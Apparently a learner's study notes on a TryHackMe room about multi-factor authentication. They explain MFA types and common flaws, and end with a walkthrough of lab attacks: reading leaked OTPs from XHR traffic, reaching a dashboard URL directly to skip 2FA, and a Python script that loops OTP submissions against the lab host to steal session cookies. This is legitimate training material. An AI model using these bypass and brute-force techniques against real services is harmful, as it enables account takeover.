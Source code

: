 # Multi-Factor Authentication
-----
- URL: https://tryhackme.com/r/room/multifactorauthentications


## How MFA works
- MFA adds another layer of protection for authentication processes. 

### There are five types of MFA:
1. Something you know: passwords, PINs, security questions
2. Something you have: physical cards, badges, apps, security token, etc.
3. Something you are: this can be biometrics, fingerprints, retina scans, etc.
4. Somewhere you are: This is mostly based on your geolocation from where you try to authenticate/access the app.
5. Something you do: how you enter credentials, interact with the applications.

### 2FA authentication: 
- This is usually the next step after users enter their login usernames and passwords.
1. SMS: This is the most popular ways used nowadays. Users are sent a one-time code/password, which is only valid for a short period of time
2. Push notification: Some applications like Google will send notifications to your trusted devices when you try to log in. From there you can approve or deny the authentication.
3. Time-Based One-Time Passwords: Temporary passwords are randomly generated and only be valid for about 30s.
4. Hardware tokens: There are several physical that generate one time passwords of use NFC for authentication.

### Conditional Access
- Many companies use conditional access to adjust the authentication processes based on different scenarios.
1. Location-based: If users log in from an unsual location, they may be prompted more security measures to ensure their authentications.
2. Time-Based: This is based on the regular times on which users log onto. If an employee logs on his/her computer outside of work hours, that may raise some flags.
3. Behavior Analysis: This is based on the activities users do on the apps (accessing sensitive data, mass modifying data, etc.)
4. Device-specific: If users authenticate on differnt devices (which corresponds to different MAC address and IP address), they may be prompted more steps to authenticate themselves.

### Implementations and Applications
- **Banking:** By using MFA, banks can protect users' personal and financial information from cyber theft, fraud and other online threats.
- **Healthcare:** MFA makes sure that patient records and personal health information are only accessible by authorized persons.
- **Corporate IT:** Companies also implement MFA to prtect their business data and maitain system integrity.

### Common vulnerabilities
**Weak OTP Generaion Algorithms**
- If the algorithm is weak, it is easy for attackers to predict the patterns and guess the code
**Application leaking 2FA Token**
- Due to insecure coding, some applications may expose the 2FA code on the client sides, which can be taken advantage of by the attackers.
- Due to flaw logics, the attackers may bypass the 2FA mechanism, hence accessing sensitive information. We've seen a lot of applications that allows users to authenticate without entering the code (even though the 2FA pages are prompted)
**Brute Forcing the OTP**
- When an application does not have rate limiting, meaning locking out accounts after a certain number of failed attempts, attackers can easily bruteforce the code. Since most security code nowadays are only 6 digits, hitting the correct one should take no time for attackers.

### Practical - OTP Leakage
- XHR (XMLHttpRequest) is the main protocol used for the communications between the servers and clients, which includes MFA code. 
- Due to insecure coding or logic flaws, the applications expose the requests to the users, hence revealing the MFA codes.
- Hence, it is worth checking out the network tabs to see what the list of all requests and responses of the applications. If lucky, one might spot an XHR request which includes the 2FA code.

### Insecure Coding
- A lot of applications allow users to access resources without having the users to input the 2FA codes (even though they are prompted). This is due to the logic flaws in the applications.
- In the following example, after entering the credentials, we're prompted to enter 2FA codes. Since we know the url of the resource (/dashboard), we can try a GET request to `http://mfa.thm/labs/second/dashboard` 
- As expected, we get access to the dashboard without knowing what the security code is

## Brute Force OTP
- Depending on the applications, we can write a Python script to brutefore the OTP
- Here is an example of what the script looks like

```python
import requests

# Define the URLs for the login, 2FA process, and dashboard
login_url = 'http://mfa.thm/labs/third/'
otp_url = 'http://mfa.thm/labs/third/mfa'
dashboard_url = 'http://mfa.thm/labs/third/dashboard'

# Define login credentials
credentials = {
    'email': 'thm@mail.thm',
    'password': 'test123'
}

# Define the headers to mimic a real browser
headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://mfa.thm',
    'Connection': 'close',
    'Referer': 'http://mfa.thm/labs/third/mfa',
    'Upgrade-Insecure-Requests': '1'
}

# Function to check if the response contains the login page
def is_login_successful(response):
    return "User Verification" in response.text and response.status_code == 200

# Function to handle the login process
def login(session):
    response = session.post(login_url, data=credentials, headers=headers)
    return response
  
# Function to handle the 2FA process
def submit_otp(session, otp):
    # Split the OTP into individual digits
    otp_data = {
        'code-1': otp[0],
        'code-2': otp[1],
        'code-3': otp[2],
        'code-4': otp[3]
    }
    
    response = session.post(otp_url, data=otp_data, headers=headers, allow_redirects=False)  # Disable auto redirects
    print(f"DEBUG: OTP submission response status code: {response.status_code}")
    
    return response

# Function to check if the response contains the login page
def is_login_page(response):
    return "Sign in to your account" in response.text or "Login" in response.text

# Function to attempt login and submit the hardcoded OTP until success
def try_until_success():
    otp_str = '1337'  # Hardcoded OTP

    while True:  # Keep trying until success
        session = requests.Session()  # Create a new session object for each attempt
        login_response = login(session)  # Log in before each OTP attempt
        
        if is_login_successful(login_response):
            print("Logged in successfully.")
        else:
            print("Failed to log in.")
            continue

        print(f"Trying OTP: {otp_str}")

        response = submit_otp(session, otp_str)

        # Check if the response is the login page (unsuccessful OTP)
        if is_login_page(response):
            print(f"Unsuccessful OTP attempt, redirected to login page. OTP: {otp_str}")
            continue  # Retry login and OTP submission

        # Check if the response is a redirect (status code 302)
        if response.status_code == 302:
            location_header = response.headers.get('Location', '')
            print(f"Session cookies: {session.cookies.get_dict()}")

            # Check if it successfully bypassed 2FA and landed on the dashboard
            if location_header == '/labs/third/dashboard':
                print(f"Successfully bypassed 2FA with OTP: {otp_str}")
                return session.cookies.get_dict()  # Return session cookies after successful bypass
            elif location_header == '/labs/third/':
                print(f"Failed OTP attempt. Redirected to login. OTP: {otp_str}")
            else:
                print(f"Unexpected redirect location: {location_header}. OTP: {otp_str}")
        else:
            print(f"Received status code {response.status_code}. Retrying...")

# Start the attack to try until success
try_until_success()
```

- The script helps us log in once it finds the correct 2FA codes, which in return prints out the session cookie. We can use this cookie to log in.
